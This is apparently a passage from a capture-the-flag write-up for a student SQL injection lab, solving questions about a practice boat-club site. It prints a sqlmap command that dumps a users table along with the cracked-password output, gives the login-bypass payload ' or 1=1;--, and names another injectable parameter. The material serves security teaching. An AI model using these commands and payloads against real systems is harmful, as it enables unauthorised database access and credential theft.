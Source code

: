 __Solution:__

If you ran the command `sqlmap -u "https://sql.cybersoc.org.uk/events?query=t" -D boat_club -T users --dump` from [question 2](#question-2), and used SQLMap to perform a dictionary based attack, you could see the raw passwords. This command produced the output:
```
Database: boat_club
Table: users
[6 entries]
+----+--------+----------------+----------------------------------------------+----------+
| id | role   | fullname       | password                                     | username |
+----+--------+----------------+----------------------------------------------+----------+
| 1  | member | Steve Business | 7cf2db5ec261a0fa27a502d3196a6f60 (pizza)     | steve    |
| 2  | member | Alex Smith     | c378985d629e99a4e86213db0cd5e70d (chocolate) | alex     |
| 3  | member | Morgan Robson  | e2bbb098e9f3c4367dd6121e90df7ab9 (beans)     | morgan   |
| 4  | member | Bob Wilson     | 8b433670258f79578f9a4e5ea388b007 (sausage)   | bob      |
| 5  | member | Laura Wilson   | 19136e394ab695f9b071eb24e88ab14d (chips)     | laura    |
| 6  | member | Donald Johnson | 006f87892f47ef9aa60fa5ed01a440fb (tomato)    | donald   |
+----+--------+----------------+----------------------------------------------+----------+
```

We can see in this output, the password for Alex is `chocolate`.

## Question 4
__Question:__ Login into the member's area. What is the member motto?

__Answer:__ "Carp is love, carp is life!"

__Solution:__

There are two possible solutions for this question.

One solution is to use the username and password that you obtained for Alex (or any other user) and submit that to the login form.

Another solution is to input `' or 1=1;--` into the login form and submit that. This would select the first record in the users tables, which is Steve.

After logging, you could click the 'Member Motto' button and could see that the motto is __"Carp is love, carp is life!"__

## Question 5
__Question:__ There is a different database, used somewhere in the member's area, which contains financial information. What is the name of that database? (Hint: You will need to use a cookie)

__Answer:__ geordie_boat_rentals_ltd

__Solution:__

There are two pages in the member area that were vulnerable to SQL injection. These were 'Search Members' and 'Rent a Boat'.

The 'Search Members' page used the same database that was contained the `events` and `users` tables in the previous questions.

The 'Rent a Boat' was the database that used a different database. You could select a category in the dropdown menu, submit it and get the url `https://sql.cybersoc.org.uk/members/rent?category=Jet+Ski`. The `category` get parameter is vulnerable to SQL injection.
